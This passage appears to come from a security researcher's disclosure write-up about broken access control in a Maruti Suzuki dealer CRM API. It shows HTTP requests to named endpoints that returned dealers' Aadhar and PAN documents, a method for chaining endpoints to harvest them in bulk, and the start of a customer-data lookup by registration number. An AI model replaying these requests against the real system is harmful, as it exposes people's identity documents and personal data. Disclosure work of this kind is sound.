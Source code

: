 
Aadhar and PAN card are Indian Government issued Ids that are not to be shared with anyone. In the previous request we got URL keys which looked like identifiers for these files on the server. Now it wasnt hard to get the API which downloads the file based on url key. And so we passed these values in the request to `smr.dealercrm.co.in/api/awssthreebucket/downloadfileOnly` 
and the files were downloaded onto my system.

```
POST /api/awssthreebucket/downloadfileOnly HTTP/1.1 
Host: smr.dealercrm.co.in 
Authorization: Bearer <TOKEN> 
 
{"urlKey":"5cba087f-cf37-4227-a9ba-9c78af896c6d.pdf"} 
```

Response:
```
HTTP/1.1 200 OK 
Access-Control-Allow-Origin: * 
Connection: keep-alive 
%PDF-1.7 
4 0 obj 
<< 
/BitsPerComponent 8 
/ColorSpace /DeviceRGB 
/Filter /DCTDecode 
/Height 81 
/Length 4350 
/Subtype /Image 
/Type /XObject 
/Width 806 
>> 
stream 
ÿØÿà 
….. 
<TRUNCATED>
```
It was straightforward to chain the previous `dealerregionlistpending` endpoint with the `downloadfileOnly` API. By extracting the URL keys from the earlier response and passing them directly into the file download endpoint, we could systematically retrieve and store Aadhar and PAN card documents for every dealer onboarded in Maruti Suzuki’s systems. This was serious - leaking Aadhar and PAN information is a major privacy violation under Indian law and can trigger government investigation or regulatory action.

<br>

### Customer Data
Probably the one you were waiting for. Upon testing we realised that there were multiple ways to get same data and the only difference was the input parameter - mobile number, registration number or an internal id call svocId. To get customer data we hit the endpoint `/api/customerdetail/fetchcustomerdetailsnew `. 

```
POST /api/customerdetail/fetchcustomerdetailsnew HTTP/1.1 
Host: smr.dealercrm.co.in 
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.<TOKEN>
 
{"regNum":"MH12THXXXX","is Customer":1} 

```
```
HTTP/1.1 200 OK 
Access-Control-Allow-Origin: * 
Content-Length: 5295 

{
  "isCustomer": 0,
```
